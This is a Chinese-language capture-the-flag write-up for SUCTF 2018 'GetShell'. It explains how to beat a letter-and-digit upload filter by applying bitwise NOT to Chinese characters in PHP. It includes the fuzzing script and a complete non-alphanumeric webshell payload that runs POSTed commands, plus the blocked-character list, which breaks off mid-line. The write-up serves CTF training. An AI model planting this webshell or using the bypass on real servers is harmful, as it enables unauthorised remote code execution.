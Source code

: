 # \[SUCTF 2018]GetShell

## \[SUCTF 2018]GetShell

## 考点

* 中文取反代码执行

## wp

有个文件上传页面index.php?act=upload，给了一个检查语句

```php
if($contents=file_get_contents($_FILES["file"]["tmp_name"])){
    $data=substr($contents,5);
    foreach ($black_char as $b) {
        if (stripos($data, $b) !== false){
            die("illegal char");
        }
    }     
} 
```

读取上传文件开头第五个字符后的内容，然后进行黑名单判断。但是不知道黑名单是什么，需要试一下，测试的字符放后面了，放burpsuite里面爆破一下，记得在设置payload时把`payload encoding`取消打钩

![](<../.gitbook/assets/image (27) (1).png>)

可以看到，上传的文件直接保存成php，所有的数字字母都被过滤。但是PHP中笔记关键的`[]()$~;`都没被过滤，这就回到了无字符RCE。

无字符RCE主要有如下几种方案

1. 自增获取每个字符
2. 特殊字符取反
3. 异或

本题除了取反符号\~其他运算全ban了，所以需要找特殊字符，比如汉字。

```php
<?php
echo strlen(~'垂');
echo ~'垂'[1];
// 3 a
```

用脚本fuzz一下

```php
<?php
header("Content-type:text/html;charset=utf-8");
$shell = "system";
$result = "";
$arr =array();
$word = "一乙二十丁厂七卜人入八九几儿了力乃刀又三于干亏士工土才寸下大丈与万上小口巾山千乞川亿个勺久凡及夕丸么广亡门义之尸弓己已子卫也女飞刃习叉马乡丰王井开夫天无元专云扎艺木五支厅不太犬区历尤友匹车巨牙屯比互切瓦止少日中冈贝内水见午牛手毛气升长仁什片仆化仇币仍仅斤爪反介父从今凶分乏公仓月氏勿欠风丹匀乌凤勾文六方火为斗忆订计户认心尺引丑巴孔队办以允予劝双书幻玉刊示末未击打巧正扑扒功扔去甘世古节本术可丙左厉右石布龙平灭轧东卡北占业旧帅归且旦目叶甲申叮电号田由史只央兄叼叫另叨叹四生失禾丘付仗代仙们仪白仔他斥瓜乎丛令用甩印乐句匆册犯外处冬鸟务包饥主市立闪兰半汁汇头汉宁穴它讨写让礼训必议讯记永司尼民出辽奶奴加召皮边发孕圣对台矛纠母幼丝式刑动扛寺吉扣考托老执巩圾扩扫地扬场耳共芒亚芝朽朴机权过臣再协西压厌在有百存而页匠夸夺灰达列死成夹轨邪划迈毕至此贞师尘尖劣光当早吐吓虫曲团同吊吃因吸吗屿帆岁回岂刚则肉网年朱先丢舌竹迁乔伟传乒乓休伍伏优伐延件任伤价份华仰仿伙伪自血向似后行舟全会杀合兆企众爷伞创肌朵杂危旬旨负各名多争色壮冲冰庄庆亦刘齐交次衣产决充妄闭问闯羊并关米灯州汗污江池汤忙兴宇守宅字安讲军许论农讽设访寻那迅尽导异孙阵阳收阶阴防奸如妇好她妈戏羽观欢买红纤级约纪驰巡寿弄麦形进戒吞远违运扶抚坛技坏扰拒找批扯址走抄坝贡攻赤折抓扮抢孝均抛投坟抗坑坊抖护壳志扭块声把报却劫芽花芹芬苍芳严芦劳克苏杆杠杜材村杏极李杨求更束豆两丽医辰励否还歼来连步坚旱盯呈时吴助县里呆园旷围呀吨足邮男困吵串员听吩吹呜吧吼别岗帐财针钉告我乱利秃秀私每兵估体何但伸作伯伶佣低你住位伴身皂佛近彻役返余希坐谷妥含邻岔肝肚肠龟免狂犹角删条卵岛迎饭饮系言冻状亩况床库疗应冷这序辛弃冶忘闲间闷判灶灿弟汪沙汽沃泛沟没沈沉怀忧快完宋宏牢究穷灾良证启评补初社识诉诊词译君灵即层尿尾迟局改张忌际陆阿陈阻附妙妖妨努忍劲鸡驱纯纱纳纲驳纵纷纸纹纺驴纽奉玩环武青责现表规抹拢拔拣担坦押抽拐拖拍者顶拆拥抵拘势抱垃拉拦拌幸招坡披拨择抬其取苦若茂苹苗英范直茄茎茅林枝杯柜析板松枪构杰述枕丧或画卧事刺枣雨卖矿码厕奔奇奋态欧垄妻轰顷转斩轮软到非叔肯齿些虎虏肾贤尚旺具果味昆国昌畅明易昂典固忠咐呼鸣咏呢岸岩帖罗帜岭凯败贩购图钓制知垂牧物乖刮秆和季委佳侍供使例版侄侦侧凭侨佩货依的迫质欣征往爬彼径所舍金命斧爸采受乳贪念贫肤肺肢肿胀朋股肥服胁周昏鱼兔狐忽狗备饰饱饲变京享店夜庙府底剂郊废净盲放刻育闸闹郑券卷单炒炊炕炎炉沫浅法泄河沾泪油泊沿泡注泻泳泥沸波泼泽治怖性怕怜怪学宝宗定宜审宙官空帘实试郎诗肩房诚衬衫视话诞询该详建肃录隶居届刷屈弦承孟孤陕降限妹姑姐姓始驾参艰线练组细驶织终驻驼绍经贯奏春帮珍玻毒型挂封持项垮挎城挠政赴赵挡挺括拴拾挑指垫挣挤拼挖按挥挪某甚革荐巷带草茧茶荒茫荡荣故胡南药标枯柄栋相查柏柳柱柿栏树要咸威歪研砖厘厚砌砍面耐耍牵残殃轻鸦皆背战点临览竖省削尝是盼";
function mb_str_split( $string ) {
    return preg_split('/(?<!^)(?!$)/u', $string ); 
}
foreach (mb_str_split($word) as $c)
{
    $arr[] = $c;
}

for ($x=0;$x<strlen($shell);$x++)
{
    for ($y=0;$y<count($arr);$y++)
    {
        $k = $arr[$y];
        if ($shell[$x] == ~($k{1}))
        {
            $result .= $k;
            break;
        }
    }
}
echo $result;
```

得到结果

```
system -> 区冈区勺皮针
_POST -> 码寸小欠立
```

payload

```
<?=$_=[];$_=$_==$_;$__=~区[$_].~冈[$_].~区[$_].~勺[$_].~皮[$_].~针[$_];$___=~码[$_].~寸[$_].~小[$_].~欠[$_].~立[$_];$__($$___[_]);
```

![](<../.gitbook/assets/image (21) (1) (1).png>)

再执行`env`命令就可以看到flag

![](<../.gitbook/assets/image (4) (1) (1).png>)

黑名单如下

```
$black_char = array('a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',' ', '!', '"', '#', '%', '&', '*', ',', '-', '/', '0', '1', '2', '3', '4', '5', '6', '7', '8', '9', ':', '<', '
```



## 小结

1. [一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)
2. [无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)
3. [CTF训练计划—\[SUCTF 2018\]GetShell](https://blog.csdn.net/qq\_43431158/article/details/108089364)

